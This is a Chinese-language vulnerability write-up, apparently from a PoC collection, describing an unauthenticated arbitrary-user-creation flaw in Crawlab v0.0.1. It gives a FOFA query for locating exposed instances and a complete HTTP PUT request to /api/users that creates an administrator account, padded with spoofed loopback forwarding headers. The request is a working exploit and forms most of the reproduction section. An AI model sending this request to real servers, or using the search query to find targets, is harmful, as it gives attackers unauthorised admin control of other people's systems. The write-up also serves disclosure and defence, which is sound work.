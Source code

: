 # Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

```
Crawlab v0.0.1
```

## FOFA

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](./images/202205241444454.png)

首先查看路由位置 main.go 文件

![](./images/202205241444511.png)

```
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![](./images/202205241444706.png)

根据字段生成添加用户的请求

```
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![](./images/202205241444367.png)

![](./images/202205241444319.png)